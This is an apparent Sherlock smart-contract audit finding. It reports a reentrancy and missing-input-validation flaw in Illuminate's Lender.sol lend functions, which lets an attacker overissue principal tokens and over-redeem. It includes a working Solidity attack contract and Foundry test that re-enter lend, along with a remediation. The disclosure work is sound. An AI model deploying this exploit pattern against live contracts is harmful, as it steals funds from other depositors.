 windowhan_kalosec

high

# Attacker can overissue Illuminate tokens due to lend function reentrancy and absense user input validation

## Summary
Attacker can overissue Illuminate tokens due to lend function reentrancy and absense user input validation 

## Vulnerability Detail
vulnerability is exist in almost every lend function.
First, I will describe the vulnerabilities that arise in the lend function combined with the sense protocol.
Other Lend functions have the same type of vulnerability.
After the explanation, I will mention the parameters that need to be verified for each lend function.

https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L693-L741

this function admit reentrancy because lend function do not verify parameter `x`
so, attacker can set `x` variable and call attacker's custom contract.

https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L403-L548

see `redeem` variable calculation.
When the user calls `redeem` function, amount of tokens that users will receive depends on the percentage of Illuminate tokens they hold.
In other words, If Attacker overissue illuminate tokens and call `redeem` function, Attacker can receive more tokens than attacker were originally supposed to receive.

same type vulnerable `lend` function is below.
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L298-L305
parameter `y` need additional secure verification.

https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L360-L370
parameter `y` need additional secure verification.

https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L461-L470
parameter `e` need additional secure verification.

https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L572-L581
parameter `x` need additional secure verification.

## Impact
High.
if attacker can overissue Illuminate token, attacker can receive excessive amount of tokens and victim receive less tokens than victim were originally supposed to receive.


## Code Snippet
POC Code is below.
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.16;
import 'forge-std/console.sol';


interface IMYLender {
    function lend(
        uint8 p,
        address u,
        uint256 m,
        uint128 a,
        uint256 r,
        address x,
        uint256 s,
        address adapter
    ) external returns (uint256);
}

interface IMYERC20 {
    function transfer(address recipient, uint256 amount) external;
    function balanceOf(address a) external view returns (uint256);
    function transferFrom(address a, address b, uint amount) external;
    function approve(address recipient, uint256 amount) external;
}

interface IWETH is IMYERC20 {
    function deposit() external payable;
}
contract AttackSample {
    uint256 callCount = 0;
    address public lendContract;

    uint8 p_;
    address u_;
    uint256 m_;
    uint128 a_;
    uint256 r_;
    address x_;
    uint256 s_;
    address adapter_;

    address targetToken;

    function setLender(address addr) public {
        lendContract = addr;
        callCount = 0;
    }


    function setVariable(uint8 p__, address u__, uint256 m__, uint128 a__, uint256 r__, uint256 s__, address adapter__) public {
        p_ = p__;
        u_ = u__;
        m_ = m__;
        a_ = a__;
        r_ = r__;
        x_ = address(this);
        s_ = s__;
        adapter_ = adapter__;
    }


    function setTargetToken(address token) public {
        targetToken = token;
    }
    function swapUnderlyingForPTs(
        address adapter,
        uint256 s,
        uint256 lent,
        uint256 r
    ) external returns (uint256) {
        
        console.log("callCount : %d", callCount);
        if(callCount < 5){
            callCount +=1;
            IMYERC20(targetToken).transfer(lendContract, 100);
            IMYLender(lendContract).lend(p_, u_, m_, a_, r_, x_, s_, adapter_);
        }
        return 0;
    }
}
```

```solidity
function testSenseLendAttack() public {
        AttackSample as_obj = new AttackSample();
        console.log("address(this) : %s", address(this));
        console.log("AttackSample contract addr : %s", address(as_obj));
        console.log("lender contract addr : %s", address(l));
        as_obj.setLender(address(l));
        as_obj.setVariable(uint8(6), Contracts.WETH, maturity, 0, 0, Contracts.SENSE_MATURITY, Contracts.SENSE_ADAPTER);
        deployMarket(Contracts.WETH);

        vm.startPrank(address(l));
        IERC20(Contracts.WETH).approve(Contracts.SENSE_PERIPHERY, 2**256 - 1);
        vm.stopPrank();

        // Sense Token Faucet
        // https://etherscan.io/address/0xba3e338fd394278a79d7295c0306663950b6cb27
        // https://etherscan.io/address/0x6BEf7922EBA9fDd6BEca781cD21E3a25f872Aa97
        vm.startPrank(address(0xBA3e338fd394278a79D7295C0306663950B6cb27));
        as_obj.setTargetToken(0x6BEf7922EBA9fDd6BEca781cD21E3a25f872Aa97);
        IERC20(0x6BEf7922EBA9fDd6BEca781cD21E3a25f872Aa97).transfer(address(as_obj), IERC20(0x6BEf7922EBA9fDd6BEca781cD21E3a25f872Aa97).balanceOf(0xBA3e338fd394278a79D7295C0306663950B6cb27));
        vm.stopPrank();
        as_obj.swapUnderlyingForPTs(Contracts.SENSE_ADAPTER, 0, 0, 0);

        //assertEq(returned, IERC20(Contracts.SENSE_TOKEN).balanceOf(address(l)));

        address ipt = mp.markets(Contracts.WETH, maturity, 0);

        // 
        console.log("total ipt balance : %d",  IERC20(ipt).balanceOf(address(as_obj)));
    }
```


if this circumstance is normal, user receive 500 ipt.
but, user receive 1000 ipt in this code.

## Tool used

Manual Review

## Recommendation

i recommend to add `nonReentrant` modifier ([link](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol)) and add secure parameter verification that connect external contract in lend function
